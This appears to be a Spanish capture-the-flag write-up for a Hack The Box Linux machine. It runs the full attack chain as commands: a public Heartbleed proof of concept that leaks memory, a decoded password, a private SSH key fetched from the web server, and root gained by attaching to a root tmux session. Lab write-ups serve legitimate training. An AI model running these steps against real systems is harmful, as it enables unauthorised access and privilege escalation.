 # HTB - Writeup: 10.10.10.79 (Linux)

## 1. Reconocimiento

**Ping inicial:**

``` bash
ping -c 1 10.10.10.79
```

El TTL es **63**, lo que indica un sistema operativo **Linux**.

**Escaneo de puertos completo:**

``` bash
nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.10.10.79 -oG allPorts
```

Puertos abiertos: - 22 (SSH) - 80 (HTTP) - 443 (HTTPS)

**Escaneo de versiones y scripts:**

``` bash
nmap -p22,80,443 -sCV 10.10.10.79 -oN escaneo
```

------------------------------------------------------------------------

## 2. Enumeración

**Búsqueda de vulnerabilidades en 443:**

``` bash
nmap --script "vuln and safe" -p443 10.10.10.79
```

Resultado: Vulnerabilidad **Heartbleed (CVE-2014-0160)**.

------------------------------------------------------------------------

## 3. Explotación

**Heartbleed PoC:**

``` bash
git clone http://github.com/mpgn/heartbleed-PoC
cd heartbleed-PoC
python2 heartbleed-exploit.py 10.10.10.79
```

El exploit genera `out.txt` con memoria filtrada.

**Extracción de credenciales:**

``` bash
cat out.txt | grep -i -A5 -B5 "base64"
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
```

Se obtiene posible contraseña:

    heartbleedbelievethehype

------------------------------------------------------------------------

## 4. Descubrimiento web

**Fuzzing de directorios:**

``` bash
wfuzz -c --hl 1 --hc 404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.79/FUZZ
```

Se descubre `/dev`, dentro de él: - **Archivo:** `hype_key` (clave SSH
privada en hex)

**Decodificación y guardado de clave:**

``` bash
curl -s -X GET "https://10.10.10.79/dev/hype_key" | xxd -ps -r > id_rsa
chmod 600 id_rsa
```

------------------------------------------------------------------------

## 5. Acceso inicial

Probando usuarios, se determina que el válido es **hype**.

**Conexión SSH:**

``` bash
ssh -o PubkeyAcceptedKeyTypes=ssh-rsa -i id_rsa hype@10.10.10.79
```

> Se usa la opción `-o PubkeyAcceptedKeyTypes=ssh-rsa` porque `ssh-rsa`
> está deshabilitado por defecto en versiones modernas de OpenSSH.

**Obtención de user.txt:**

``` bash
cat /home/hype/user.txt
```

------------------------------------------------------------------------

## 6. Escalamiento de privilegios

**Revisión de procesos:**

``` bash
ps aux
```

Se encuentra `tmux` corriendo como **root**.

**Conexión a la sesión tmux:**

``` bash
tmux -S /.devs/dev_sess
```

Esto otorga una shell como **root**.

**Obtención de root.txt:**

``` bash
cat /root/root.txt
```

------------------------------------------------------------------------

## 📌 Resumen Técnico

-   Vulnerabilidad explotada: **Heartbleed (CVE-2014-0160)**\
-   Acceso inicial: **Clave SSH privada** extraída de `/dev/hype_key`\
-   Escalamiento: **Sesión tmux** de root
